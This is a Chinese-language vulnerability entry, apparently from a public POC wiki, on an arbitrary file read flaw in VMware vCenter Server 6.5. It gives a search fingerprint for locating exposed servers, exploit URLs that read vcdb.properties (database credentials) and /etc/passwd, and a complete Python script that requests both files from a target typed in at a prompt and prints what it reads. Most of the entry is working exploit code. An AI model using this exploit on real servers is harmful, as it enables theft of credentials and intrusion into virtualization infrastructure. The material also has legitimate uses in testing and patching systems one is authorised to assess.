



VMware vCenter Server 任意文件读取漏洞¶
漏洞描述¶
VMware vCenter Server 特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件。
漏洞影响¶
VMware vCenter Server 6.5.0a- f 版本
网络测绘¶
title="ID_VC_Welcome"
漏洞复现¶

使用POC访问漏洞点
- Windows主机
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

- Linux主机
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd

漏洞POC¶
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mVersion: VMware vCenter任意文件读取漏洞 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
if "password" in response_windows.text and response_windows.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
elif "root" in response_linux.text and response_linux.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
else:
print("\033[31m[x] 不存在漏洞 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
